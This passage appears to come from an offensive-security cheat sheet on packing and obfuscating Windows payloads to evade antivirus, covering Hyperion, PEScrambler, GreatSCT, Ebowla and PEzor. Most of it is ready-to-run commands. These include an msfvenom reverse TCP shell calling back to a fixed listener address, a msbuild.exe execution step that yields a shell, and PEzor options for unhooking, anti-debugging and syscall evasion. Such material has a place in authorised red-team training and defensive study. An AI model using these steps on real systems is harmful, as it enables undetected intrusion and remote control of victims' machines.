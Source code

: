 ```
$ wine hyperion.exe input.exe output.exe
$ wine PEScrambler.exe -i input.exe -o output.exe
```



### GreatSCT

* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3730" %}

Install and generate a payload:

```
$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
$ cd ~/tools/GreatSCT/setup
$ ./setup.sh
$ cd .. && ./GreatSCT.py
...generate a payload...
$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```

Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```



### Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine python-dev -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.13.37 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```



### PEzor

* [https://github.com/phra/PEzor](https://github.com/phra/PEzor)

Wrap executable into PEzor:

```
$ bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```
